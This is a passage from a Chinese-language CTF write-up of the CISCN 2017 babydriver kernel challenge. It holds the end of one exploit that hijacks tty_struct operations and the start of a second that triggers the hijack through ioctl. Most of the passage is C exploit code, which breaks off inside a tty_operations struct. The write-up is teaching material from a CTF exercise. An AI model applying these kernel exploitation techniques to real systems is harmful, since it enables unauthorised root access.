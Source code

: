 ```c
    read(fd2, fake_tty, 32);
    fake_tty[3] = fake_tty_operations;
    write(fd2, fake_tty, 32);

    char buf[8] = {0};
    write(fd_tty, buf, 8);

    return 0;
}
```

#### exploit3

exp3和exp2很像，差别在于使用了ioctl触发的`tty_operations`。与write不同，调用ioctl是用的`call rax`，所以rax中所存储的就是ioctl函数的地址。

[exp](https://github.com/clxsh/ctf_wps/blob/master/others/kernel_pwn/ciscn2017-babydriver/exp3.c)

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <string.h>
#include <sys/ioctl.h>

struct trap_frame {
    uint64_t rip;
    uint64_t cs;
    uint64_t rflag;
    uint64_t rsp;
    uint64_t ss;
};
struct trap_frame tf;

struct tty_operations {
    struct tty_struct *(*lookup) (struct tty_driver * driver,
				  struct file * filp, int idx);
    int (*install)(struct tty_driver * driver, struct tty_struct * tty);
    void (*remove)(struct tty_driver * driver, struct tty_struct * tty);
    int (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct * tty);
    void (*cleanup)(struct tty_struct * tty);
    int (*write)(struct tty_struct * tty,
		 const unsigned char *buf, int count);
    int (*put_char)(struct tty_struct * tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct * tty);
    int (*write_room)(struct tty_struct * tty);
    int (*chars_in_buffer)(struct tty_struct * tty);
    int (*ioctl)(struct tty_struct * tty,
		 unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct * tty,
			 unsigned int cmd, unsigned long arg);
    void (*set_termios)(struct tty_struct * tty, struct ktermios * old);
    void (*throttle)(struct tty_struct * tty);
    void (*unthrottle)(struct tty_struct * tty);
    void (*stop)(struct tty_struct * tty);
    void (*start)(struct tty_struct * tty);
    void (*hangup)(struct tty_struct * tty);
    int (*break_ctl)(struct tty_struct * tty, int state);
    void (*flush_buffer)(struct tty_struct * tty);
    void (*set_ldisc)(struct tty_struct * tty);
    void (*wait_until_sent)(struct tty_struct * tty, int timeout);
```